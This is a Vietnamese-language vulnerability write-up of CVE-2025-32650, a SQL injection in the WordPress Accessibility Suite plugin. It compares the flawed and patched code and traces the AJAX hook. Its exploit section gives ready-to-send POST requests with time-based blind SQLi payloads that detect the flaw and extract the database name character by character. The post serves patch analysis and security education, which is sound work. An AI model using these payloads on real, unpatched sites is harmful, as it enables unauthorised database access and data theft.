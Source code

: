 ```yaml
---
title: CVE-2025-32650 Analysis & POC
description: Security Vulnerability in WordPress Accessibility Suite Plugin.
date: 2025-09-26 10:36:00 +0700
categories: [CVE Analyst]
tags: [analyst, plugin, sqli]
images: ["app.png"]
featuredImage: "app.png"

lightgallery: true

toc:
  auto: false
---
```


<!--more-->

Lỗ hổng xảy ra trên plugin **Accessibility Suite** của WordPress trước phiên bản **4.19**. Điều này có thể cho phép kẻ tấn công trực tiếp tương tác với cơ sở dữ liệu của bạn, bao gồm không giới hạn ở việc đánh cắp thông tin.

* **CVE ID**: [CVE-2025-32650](https://www.cve.org/CVERecord?id=CVE-2025-32650)
* **Product**: [WordPress Accessibility Suite Plugin](https://wordpress.org/plugins/online-accessibility/)
* **Vulnerability Type**: SQL Injection
* **Affected Versions**: <= 4.18
* **CVSS severity**: High (8.5)
* **Required Privilege**: Subscriber

## Requirements

* **Local WordPress & Debugging**: [Local WordPress and Debugging](https://w41bu1.github.io/2025-08-21-wordpress-local-and-debugging/).
* **Accessibility Suite**:  v4.18(vul) và v4.19(fix)
* **diff tool**: **meld** hoặc bất cứ tool nào có thể compare để thấy được sự khác biệt giữa 2 version

## Analysis

Ứng dụng chưa thực hiện ép kiểu cho **input** và mặc dù có sử dụng `prepare()` để chống SQLi, nhưng do triển khai không đúng nên lỗ hổng SQLi vẫn tồn tại.

### Patch Diff

Dùng diff tool bất kì để so sánh sự khác biệt giữa bản lỗi và bản vá.
Có sự khác biệt rõ ở file **includes/classes/Helper.php**

```php
static function save_false_positive($scan_id, $issue_id){
    // other logic
    if(! is_admin()) {
        return '';
    }
    // other logic
    $list = json_decode(
        $wpdb->get_results($wpdb->prepare("SELECT list FROM  $table_name WHERE scan_id = $scan_id"))[0]->list // phpcs:ignore
    );
}
```

Bản vá đã truyền `$scan_id` như tham số vào câu query. SQL injection được phòng ngừa vì biến không được nối trực tiếp vào query nữa.

```php
static function save_false_positive($scan_id, $issue_id){
    // other logic
    if(! is_admin()) {
        return '';
    }
    // other logic
    $scan_id = absint($scan_id); // Ensure scan_id is a positive integer
    
    if (!$scan_id) {
        return ["status" => "failed", "msg" => "Invalid scan ID"];
    }
    
    // Get list using properly prepared query
    $query = $wpdb->prepare(
        "SELECT list FROM %i WHERE scan_id = %d",
        $table_name,
        $scan_id
    );
    
    $result = $wpdb->get_results($query);
}
```

{{< figure src="patch_diff.png" caption="Patch diff" alt="patch diff" >}}

### How it work?

Lỗ hổng nằm trong hàm tĩnh `save_false_positive` của class `Helper` thuộc file **includes/classes/Helper.php**. Để xác định nơi nó được gọi, ta tìm kiếm với tự khóa `save_false_positive` trong thư mục chứa plugin.

{{< figure src="search_1.png" caption="Search save_false_positive" alt="search save_false_positive" >}}

👉 `save_false_positive` được `callback` của action hook `wp_ajax_ONLINE_ADAv4/save_false_positive` gọi.

Khi **POST** request được gửi đến `/wp-admin/admin-ajax.php` với `action`=`ONLINE_ADAv4/save_false_positive` callback được gọi.
Trong request cần 2 **POST** param `issue_id` và `scan_id`. Nếu không, ứng dụng sẽ trả về:

```json
{"status":"failed","msg":"Did not receive the scan ID or the issue ID"}
```

`save_false_positive` được gọi với đối số `issue_id` và `scan_id`. Các đối số này sẽ bị escape bởi [**magic quotes**](https://patchstack.com/academy/wordpress/vulnerabilities/sql-injection/#magic-quotes) trong WordPress vì lấy trực tiếp từ **POST** request.

Ứng dụng check xem người dùng có quyền truy cập vào trang admin không. Nếu không, trả về chuỗi rỗng.

```php
if(! is_admin()) {
    return '';
}
```

Sau đó các đối số trực tiếp truyền vào câu query chứa lỗ hổng SQLi rồi thực thi.

## Exploit

### Detect SQLi

Gửi **POST request** chứa payload SQLi. Vì chỉ cần là user có quyền truy cập vào trang admin, nên ta tạo user với `role:subcriber` có **privilege thấp nhất**.

Trong WordPress, user có role cao hơn sẽ kế thừa cả **privilege** role thấp hơn. Nên chỉ cần user `subcriber` gửi payload thành công thì tất cả user còn lại đều có thể. Đúng với mô tả của CVE

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
...
Cookie: cookie_here

action=ONLINE_ADAv4/save_false_positive&issue_id=1&scan_id=1 UNION SELECT SLEEP(5)
```

Khi đó câu query sẽ trở thành

```sql
SELECT list FROM  wp_oada_false_positives WHERE scan_id = 1 UNION SELECT SLEEP(5)
```

{{< figure src="time_response.png" caption="Time response with SQLi payload" alt="time response with SQLi payload" >}}

👉 Dựa trên thời gian phản hồi => payload hoạt động.

**Các technique có thể sử dụng trong trường hợp table rỗng**:

* **UNION**: vì nó không phụ thuộc vào dữ liệu bảng của câu query trước đó, nhưng cần phải tìm được số cột tương ứng với truy vấn trước đó.
* **Subquery**:

  * **Subquery trong mệnh đề WHERE**: MySQL có thể tối ưu hóa và bỏ qua subquery nếu kết quả có thể xác định sớm. Nếu bảng không có dữ liệu, kết quả cuối cùng sẽ là tập rỗng, MySQL không cần thực thi `SLEEP()`.
  * **Subquery trong mệnh đề FROM**: Truy vấn con được coi là bảng tạm thời. MySQL phải thực thi truy vấn con này đầu tiên để tạo bảng tạm thời, sau đó mới thực thi truy vấn chính.

{{< figure src="https://www.kdnuggets.com/wp-content/uploads/ferrer_essential_guide_sql_execution_order_6.png" caption="SQL Execution Order Diagram" alt="SQL Execution Order Diagram" >}}

### Get First Letter of Database Name

Điều kiện tiên quyết để **dump được hết data** là phải dump được 1 ký tự bất kỳ của tên database, nếu lấy được thì gần như toàn bộ data đều dump được.

Gửi request với **SQLi payload**:

```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
...
Cookie: cookie_here

action=ONLINE_ADAv4/save_false_positive&issue_id=1&scan_id=1 UNION SELECT IF(SUBSTRING(SCHEMA(),1,1)=0x77, SLEEP(5), 1)
```

Sử dụng `SUBSTRING()` để lấy ký tự đầu tiên của **database name**, `IF()` trả về `SLEEP(5)` nếu ký tự đó là `0x77`('w')

Sử dụng hex encoding `w` thành `0x77` vì như phân tích [ở trên](#how-it-work), `scan_id` sẽ bị escape.

👉 Dựa trên thời gian phản hồi => kí tự đầu tiên đúng là `w`.

## Conclusion

Lỗ hổng **CVE-2025-32650** trong plugin WordPress **Accessibility Suite** trước phiên bản **4.19** xuất phát từ việc triển khai không đúng hàm `$wpdb->prepare()` dẫn đến lỗ hổng SQL Injection.

Bản vá chính thức đã triển khai đúng `$wpdb->prepare`, giúp đảm bảo dữ liệu đầu vào được kiểm soát và an toàn hơn.

**Key takeaways**:

* Luôn sử dụng `$wpdb->prepare()` khi làm việc với database trong WordPress để tránh SQL Injection.
* Thường xuyên cập nhật plugin và kiểm tra bảo mật để tránh trở thành mục tiêu tấn công.

## References

[SQL Injection cheat sheet - PortSwigger](https://portswigger.net/web-security/sql-injection/cheat-sheet)

[ WordPress Accessibility Suite Plugin <= 4.18 is vulnerable to SQL Injection ](https://wordpress.org/plugins/online-accessibility/)
